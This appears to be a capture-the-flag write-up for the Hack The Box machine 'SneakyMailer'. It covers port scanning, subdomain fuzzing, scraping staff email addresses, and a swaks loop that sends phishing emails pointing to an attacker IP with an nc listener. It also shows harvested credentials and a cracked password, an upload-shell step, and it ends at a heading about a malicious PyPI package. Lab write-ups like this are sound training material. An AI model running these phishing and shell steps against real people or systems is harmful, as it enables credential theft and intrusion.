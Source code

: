 # SneakyMailer

## Enumeration

### Scan Report

```text
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 3.0.3
22/tcp   open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
25/tcp   open  smtp     Postfix smtpd
80/tcp   open  http     nginx 1.14.2
143/tcp  open  imap     Courier Imapd (released 2018)
993/tcp  open  ssl/imap Courier Imapd (released 2018)
8080/tcp open  http     nginx 1.14.2
Service Info: Host:  debian; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### Port 21

vsftpd 3.0.3 -&gt; no vulnerabilites found on internet

### Port 80

It redirects us to [http://sneakycorp.htb/](http://sneakycorp.htb/) so, add this domain in hosts file

### Fuzz Subdomains

```text
❯ sudo wfuzz -c -f sub-fighter -w /home/dhruv/PenetrationTesting/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://sneakycorp.htb" -H "Host: FUZZ.sneakycorp.htb" --hw 12
```

![](../../../.gitbook/assets/image%20%2847%29.png)

Add dev.sneakycorp.htb to hosts file and browse to it

## Exploitation

### Move users email addresses to a file

Filter emails from file

```text
gawk  -v RS='[[:alnum:]_.]+@[[:alnum:]_]+[.][[:alnum:]]+' 'RT{print RT}' team > emailaddresses
```

### Sending mails to users

We don't know whether susers will click on mails or not. So, lets verify it first rather than creating a phishing page.

```text
for email in $(cat emailaddresses);
do
	echo  email
	swaks \
		--from support@sneakymailer.htb \
		--to $email \
		--header 'Subject: Please Register your account' \
		--body 'http://10.10.14.12/register.php' \
		--server 10.10.10.197
done
```

This will start sending out emails. Listen on another port.

```text
nc -nvlkp 80
```

This will show messages if user clicks the link



You will get the reply

![](../../../.gitbook/assets/image%20%2839%29.png)

### Use this in Evolution

You will get an email with username and password

```text
Hello administrator, I want to change this password for the developer account
 
Username: developer
Original-Password: m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C
 
Please notify me when you do it
```



### FTP 

Upload shell!

## Post Exploitation

### .Htaccess returns a password

Location: /var/www/pypi.sneakycorp.htb

Crack and find password: soufianeelhaoui



### Read sites-available

```text
cat /etc/nginx/sites-available/pypo.sneakycorp.htb
```



### Create ,malicious pypi package to execut and gain shell

